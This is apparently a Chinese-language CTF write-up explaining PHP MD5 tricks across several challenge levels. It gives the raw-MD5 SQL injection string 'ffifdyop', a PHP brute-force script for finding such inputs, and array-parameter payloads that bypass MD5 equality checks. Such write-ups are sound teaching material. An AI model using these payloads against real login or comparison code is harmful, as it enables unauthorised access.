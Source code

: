 raw md5包含很多字符，如果raw md5包含`'trash'or'1trash'`这样的，就会true，永真

一个参考payload是

```
ffifdyop
hash: 276f722736c95d99e921722cf9ed621c
```

爆破脚本

```
<?php
for ($i = 0;;) {
 for ($c = 0; $c < 1000000; $c++, $i++)
  if (stripos(md5($i, true), '\'or\'') !== false)
   echo "\nmd5($i) = " . md5($i, true) . "\n";
 echo ".";
}
?>
```

参考：[Leet More 2010 Oh Those Admins! writeup](http://mslc.ctf.su/wp/leet-more-2010-oh-those-admins-writeup/)

之后进入下一关，页面源码

```
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
```

数组绕过，payload

```
/levels91.php?a[]=1&b[]=2
```

进入下一关

```
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```

依旧数组绕过，注意post

```
/levell14.php
param1[]=1&param2[]=2
```

